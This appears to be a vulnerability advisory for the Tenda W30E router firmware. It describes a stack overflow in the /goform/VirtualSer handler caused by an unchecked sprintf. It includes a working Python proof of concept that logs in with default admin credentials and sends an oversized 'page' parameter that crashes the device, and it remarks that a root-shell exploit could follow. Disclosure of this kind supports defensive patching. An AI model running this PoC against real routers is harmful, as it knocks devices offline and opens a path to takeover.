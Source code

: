 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/VirtualSer/img/2.png)

In /goform/VirtualSer, the page will be spliced into s by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'page=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/VirtualSer/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell
